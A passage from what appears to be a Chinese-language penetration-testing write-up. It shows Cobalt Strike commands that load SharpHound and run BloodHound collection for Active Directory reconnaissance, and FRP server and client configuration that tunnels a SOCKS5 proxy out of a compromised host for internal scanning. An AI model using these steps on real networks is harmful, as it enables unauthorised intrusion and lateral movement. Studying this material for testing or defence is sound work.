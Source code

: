 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDsuZmCicAvUXj6AtxrzNEIwq6UyTVUsmQibwMKFqAlS9JToxicjQVibZ6FWc6nyWLPg6YokGia473nhRw/640?wx_fmt=png)

但是这个数据脱下来之后使用 bloodHound 导入进去却发现数据无法显示，之后我通过 CS 远程 加载 powershell 脚本上去之后就成功的获取到了 json 数据了

powershell-import  /home/xxx/Desktop/SharpHound.ps1

powershell  Invoke-BloodHound  -CollectionMethod All

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDsuZmCicAvUXj6AtxrzNEIwSrIVS7Lkksw61thviaCM08S2G00VzJBjFNaFsNqG215hKfwOubd77YQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDsuZmCicAvUXj6AtxrzNEIwPltbicnticJiaBUvufH3oIvtxYzXwv59iaoC4BCG3MXwwiak9wjbQickglAg/640?wx_fmt=png)

接着通过上次 frp 到对方的服务器上面代理一个更加稳定的。上传 FRP 来进行内网的扫描和渗透测试。FRP 相对于其他代理它比较文件和比较好管理，首先配置好服务器的 FRP 配置文件

[common]

bind_addr = 服务器监听的地址

bind_port = 服务器监听的端口

dashboard_port = 服务器 web 管理页面的端口

dashboard_user = 登陆的账号

dashboard_pwd = 登陆的密码

allow_ports = 4000-50000 [允许客户端连接的端口]

接着配置好 FRP 客户端的配置文件，再把他们上传到客户端和服务端上面

[common]

server_addr = 服务器的 IP 地址

server_port = 服务器监听的端口

tls_enable = true [是否开启 tls]

pool_count = 5 [连接数]

[plugin_socks]

type = tcp

remote_port = 6666 []

plugin = socks5

plugin_user = 登陆的账号

plugin_passwd = 登陆的密码

use_encryption = true

use_compression = true

上传成功之后呢就可以启动 FRP 了

服务器端: frps.exe -c frps.ini

客户端: frpc.exe -c frpc.ini

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDsuZmCicAvUXj6AtxrzNEIwL1NVJH2csN9X4Zkjj4TZYYN4lEr5JslpgfkwEbMicXiamKd1UKmIH31Q/640?wx_fmt=png)
